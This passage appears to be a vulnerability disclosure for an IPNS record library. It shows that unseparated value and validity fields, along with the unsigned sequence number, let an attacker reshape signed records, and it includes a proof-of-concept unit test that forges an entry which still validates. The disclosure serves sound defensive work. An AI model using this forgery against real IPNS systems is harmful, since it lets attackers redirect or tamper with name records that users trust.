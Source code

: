 
For example, the following structured messages would result in the same serialized byte-stream). Note how the semantic meaning of the extracted data is completely different:

Structure: `[value][validity][type=EOL]`

* `[QmWEekX7EZLUd9VXRNMRXW3LXe4F6x7mB8oPxY5XLptrBq][2033-05-18T03:33:20.000000000Z][EOL]` (value=`QmWEekX7EZLUd9VXRNMRXW3LXe4F6x7mB8oPxY5XLptrBq`)
* `[QmWEekX7EZLUd9VXRNMRXW3][LXe4F6x7mB8oPxY5XLptrBq2033-05-18T03:33:20.000000000Z][EOL]` (value=`QmWEekX7EZLUd9VXRNMRXW3`)
* `[][QmWEekX7EZLUd9VXRNMRXW3LXe4F6x7mB8oPxY5XLptrBq2033-05-18T03:33:20.000000000Z][EOL]` (value=` `)

### Proof of Concept

The following unit-test (a modification of `./test/index.spec.js`) demonstrates the issue by creating a new signed message `originalEntry` for cid `QmWEekX7EZLUd9VXRNMRXW3LXe4F6x7mB8oPxY5XLptrBq` with an EOL validity of `2033-05-18T03:33:20.000000000Z`. The signed data is then validated.

Let's assume a Man-in-the-Middle attacker obtains a signed ipns response. This attacker can now create a `forgedEntry` truncating the original value by moving parts of it to the `validity` field. The serialized and therefore validated data stays the same.


```js
 it('signed data structure not validated correctly - vulnerability is unpatched if this passes', async () => {
    const sequence = 0 //@audit never checked
    // 2033-05-18T03:33:20.000000000Z
    const expiration = '2033-05-18T03:33:20.000000000Z'
    const originalEntry = await ipns.createWithExpiration(rsa, cid, sequence, expiration)
    await ipns.validate(rsa.public, originalEntry)
    expect(originalEntry).to.have.property('validity')
    expect(originalEntry.validity).to.equalBytes(uint8ArrayFromString('2033-05-18T03:33:20.000000000Z'))

    //forge signature: - validates: value.validity.validityType
    let forgedEntry = Object.assign({}, originalEntry);  //clone original
    forgedEntry.value = new Uint8Array();

    const uint8ArrayConcat = require('uint8arrays/concat')
    forgedEntry.validity = uint8ArrayConcat([ originalEntry.value ,uint8ArrayFromString('2033-05-18T03:33:20.000000000Z')])
    forgedEntry.sequence = 0xfa3e //@audit - sequence is not part of signed data?

    //console.log(forgedEntry)
    await ipns.validate(rsa.public, forgedEntry)
    expect(forgedEntry).to.have.property('validity')
    expect(forgedEntry.validity).to.equalBytes(uint8ArrayConcat([ originalEntry.value ,uint8ArrayFromString('2033-05-18T03:33:20.000000000Z')]))
    expect(forgedEntry.value).to.equalBytes(new Uint8Array())

  })
```
